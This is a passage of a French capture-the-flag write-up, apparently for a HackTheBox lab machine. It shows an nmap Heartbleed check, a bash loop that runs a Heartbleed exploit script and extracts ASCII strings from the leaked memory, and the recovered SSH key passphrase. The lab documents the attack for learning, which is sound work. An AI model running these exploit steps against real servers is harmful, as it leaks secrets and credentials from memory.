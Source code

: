 ```bash
nmap -p 443 --script ssl-heartbleed valentine.htb
```

Résultat :

```
State: VULNERABLE
Risk factor: High
```

###  Script utilisé : `heartbleed_full.sh`

```bash
#!/bin/bash
# Usage: ./heartbleed_full.sh
# Ce script exécute plusieurs fois l’exploit Heartbleed et extrait les chaînes ASCII

read -p "🔢 Nombre d'itérations Heartbleed à exécuter : " count
mkdir -p dumps
rm -f dumps/out_*.txt ascii_concatenated.txt

for i in $(seq -f "%03g" 1 $count); do
    echo "➡️  [Iteration $i]..."
    python2 heartbleed-exploit.py valentine.htb --output dumps/out_$i.txt --ascii
done

echo -e "
🧪 Extraction des chaînes ASCII avec strings..."
strings dumps/out_*.txt | grep -E '[[:print:]]{4,}' | sort -u > ascii_concatenated.txt
echo -e "
✅ Terminé : toutes les chaînes ASCII concaténées dans ascii_concatenated.txt"
```

### Script Python : `heartbleed-exploit.py`

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# Heartbleed exploit par Martial Puygrenier adapté pour extraire ASCII

# (… contenu abrégé, voir pièce jointe pour le fichier complet …)
```

Exécution du script :

```bash
./heartbleed_full.sh
```

Résultat : dans `ascii_concatenated.txt`, on récupère :

```
heartbleedbelievethehype
```

Mot de passe pour la clé SSH.

---